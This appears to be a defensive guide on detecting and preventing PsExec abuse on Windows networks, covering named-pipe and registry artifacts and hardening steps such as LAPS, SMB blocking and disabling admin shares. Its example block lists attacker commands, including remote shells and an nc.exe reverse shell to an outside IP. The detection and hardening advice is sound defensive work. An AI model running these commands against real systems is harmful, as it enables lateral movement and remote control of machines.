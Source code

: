 A pipe for PsExec communication usually looks like "\\.\pipe\psexesvc." When searching for malicious uses of PsExec in the environment, even an evasive, renamed version of PsExec will still use named pipes to communicate. This behavior is predictable enough that it can be found in other software that merely clones the functionality of PsExec.

If looking to verify that PsExec has been used on a device, check for the Windows Registry artifact "KEY_CURRENT_USER\software\sysinternals\psexec\eulaaccepted." If the registry exists and has a DWORD value of "0x00000001," then you know that the EULA has been accepted while running PsExec.

POTENTIAL MALICIOUS COMMAND EXAMPLES:
```
Examples PSEXEC commands from attacker’s side:
Launches an interactive command prompt on the remote computer \\companylaptop:
psexec -i \\companylaptop cmd

Executes IpConfig on the remote computer:
psexec -i \\companylaptop ipconfig /all

Copies the program test.exe to the remote computer and executes:
psexec -i \\companylaptop -c test.exe

Accept EULA so end user doesn't see it and run reverse shell:
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

### PREVENTION RECOMMENDATIONS
As with any preventive action, investigating the viability of PSEXEC abuse is essential before implementing it so that legitimate usage is not affected. Disabling the service will prevent it from being used by threat actors and admins alike.

 - Deploy Windows Local Administrator Password Policy: Per Microsoft, Windows Local Administrator Password Solution (LAPS) is a Windows feature that backs up the password of local administrator accounts within Azure Active Directory and Windows Active Directory-joined devices. This allows administrators to prevent the reuse of local administrator passwords across devices. By extending the schema of Active Directory, each endpoint configured would generate a unique password and be stored within Active Directory to be retrieved as needed. Implementing LAPS reduces the attack surface when an adversary compromises a single set of local credentials, preventing their use across multiple endpoints. Since Admin Shares require administrative permissions, LAPS can help limit local account usage across the environment.
 - Restrict Service Accounts from being able to: log on locally, log on through Remote Desktop Services, limit who can access Admin Shares.
 - Disable the Lanman Server service: This service enables support for file, print, and named pipe sharing over the network. This might be too extreme in most environments. 
 - Block SMB connections inbound: for more information, see https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a 
 - Disable administrative/hidden shares: Within GPO or by directly modifying the registry, you can disable the shares with a simple registry modification.

```
To disable Admin Shares on a workstation, the key is:
HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
DWORD Name = AutoShareWks
Value = 0

To disable Admin Shares on a server, the key is:
HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
DWORD Name = AutoShareServer
Value = 0
```
